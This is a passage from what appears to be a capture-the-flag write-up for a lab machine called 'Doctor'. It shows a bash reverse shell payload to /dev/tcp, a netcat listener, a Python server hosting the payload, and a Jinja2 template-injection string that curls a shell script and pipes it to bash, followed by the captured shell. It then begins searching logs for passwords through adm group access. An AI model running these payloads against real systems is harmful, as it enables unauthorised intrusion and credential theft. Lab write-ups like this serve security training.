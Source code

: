 
Next, we can get a reverse shell by doing a curl bash.

I'll first make a reverse shell payload

```
#!/bin/bash
bash -i >& /dev/tcp/KALIIP/4242 0>&1
```

Then I will set up a reverse shell listener

```
nc -lvnp 4242
```

Next, I will spin up a python webserver to host the reverser shell payload.

```
python3 -m http.server 80
```

Then I will edit the payload to curl bash our reverse shell

```
{.\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl KALI_IP/shell.sh |bash').read() }}
```

Then once we go to `/archive` we will get our shell!

```
┌──(kali㉿kali)-[~/htb/doctor]                                                                                                                               
└─$ nc -lvnp 4242                                                                                                                                            
listening on [any] 4242 ...                                                                                                                                  
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.209] 55620                                                                                                 
bash: cannot set terminal process group (824): Inappropriate ioctl for device                                                                                
bash: no job control in this shell                                                                                                                           
web@doctor:~$
```

# Shaun

I did some basic user enumeration on our web user. Running `groups` showed that I am a part of `adm`. This group will allow us to read log files. Often times this is a good place to find passwords.

```
web@doctor:/home/shaun$ groups
groups
web adm
```

There are lots of logs inside `/var/log` so we can use `grep` to search all of them for us
